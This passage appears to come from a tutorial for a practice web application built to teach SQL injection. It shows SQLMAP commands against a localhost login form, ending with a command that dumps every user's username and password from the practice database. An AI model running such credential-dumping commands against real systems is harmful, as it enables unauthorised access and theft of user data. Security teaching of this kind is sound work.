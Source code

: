 ```{data-filename="Command Prompt"}
| Blad3   |
| lyzae   |
+---------+
```
##### Project Demonstration
Pretty much the same procedure works for the webapplication of this project although there is one key difference. Since this webapplication uses a post request to get the data from the login and request forms, you need to provide some dummy data to SQLMAP. This guarantees that the appropriate code, that executes the queries using the data, runs. Therefore, the following command performs some basic tests on the login form. The form data is provided using the parameter "--data". Since the webapplication uses the name of the button that is clicked to run the appropriate code, you need to add that aswell.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://localhost:5000/login --data="username=dummy&password=dummy&login=Login"
```
Since you know exactly how the webapplication works, you can provide some additional parameters to speed up the process. Using the parameter "-p", SQLMAP tries to find SQL injection vulnerabilites only in the field provided. Since you know that all fields are injectable in the same way, you can limit the testing to one of them. With the parameter "--dbms" you can tell SQLMAP which database management system the webapplication is connected to which in this case is MySQL. With these adjustements the command for the basic test looks as follows.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://localhost:5000/login --data="username=dummy&password=dummy&login=Login" -p username --dbms=mysql
```
Now, you can perform the same steps as before until you reach the data of the users table or any other table in your database for that matter. The following command displays the usernames and passwords of all users present in the database.
```{data-filename="Command Prompt"}
python sqlmap.py -u http://localhost:5000/login --data="username=dummy&password=dummy&login=Login" -p username --dbms=mysql -D sql_injection_practice -T users --dump-all
```